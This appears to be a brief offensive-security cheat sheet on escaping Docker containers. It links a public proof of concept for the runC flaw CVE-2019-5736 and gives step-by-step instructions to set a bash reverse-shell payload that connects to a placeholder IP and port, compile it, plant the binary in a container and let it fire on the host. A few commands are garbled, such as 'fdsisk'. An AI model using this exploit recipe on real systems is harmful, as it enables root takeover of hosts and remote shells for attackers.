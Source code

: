 # docker

## [HackTrick Docker Breakout](https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout)

```bash
exec -it <image>
https://github.com/Frichetten/CVE-2019-5736-PoC

escape as root #hacktrick
fdsisk -l
```

## Docker breakout runC exploit

```bash
Using https://github.com/Frichetten/CVE-2019-5736-PoC

Explanation (https://unit42.paloaltonetworks.com/breaking-docker-via-runc-explaining-cve-2019-5736)
The vulnerability allows a malicious container to overwrite the host runc binary and thus gain root-level code execution on the host. The level of user interaction is being able to run any command.
1. Update payload in the `main.go`;
2. var payload = "#!/bin/bash \n bash -i >& /dev/tcp/IP/PORT 0>&1" 
3. compile it with go build main.go.
4. Move that binary to the container you'd like to escape from.
5. Execute the binary, and then the next time someone attaches to it and calls /bin/sh your payload will fire.
```

